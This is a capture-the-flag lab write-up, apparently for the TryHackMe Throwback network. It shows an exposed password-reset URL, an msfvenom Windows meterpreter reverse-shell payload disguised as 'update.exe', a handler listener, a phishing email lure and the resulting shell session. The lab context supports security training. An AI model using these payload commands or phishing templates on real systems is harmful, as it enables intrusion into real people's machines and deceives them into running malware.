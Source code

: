let's try to login to each account and look at their inbox. only `MurphyF` is actived.
## MurphyF account
```
Dear Frank Murphy,

Due to the recent firing of the Timekeep developer who had access to our
database, we have decided to issue a password reset. You can do so by
replacing your user account name and your new password in the following
URL:

http://timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD

Thank you,
IT Security.
```
seem like we can reset userser password by just viste that links. Unfortunally we do not have access to **TIME** yet. but let keep it in our [important notes](README.md)

# phishing
Let start by creating own reverse shell payload using `msfvenom` using staged Windows payload
```console
bibo318@parrot:~/THM/throwback$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f exe -o update.exe
```
now set a msfconsole to listen for incomming shell
```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > exploit -j
```
here is our email content.
```
Subject: Note-taking software update.
Hey everyone,


We’re releasing an update for our note-taking software. In order to keep using the software, you must perform this update prior to next Friday. Please run the attached file to this email to complete this action.


Thank you for your patience in this update.

IT support
```
now wait for one victim to see our mail and download+install it. BOOM!
```
meterpreter > sysinfo
Computer        : THROWBACK-WS01
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : THROWBACK
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background 
[*] Backgrounding session 1...
```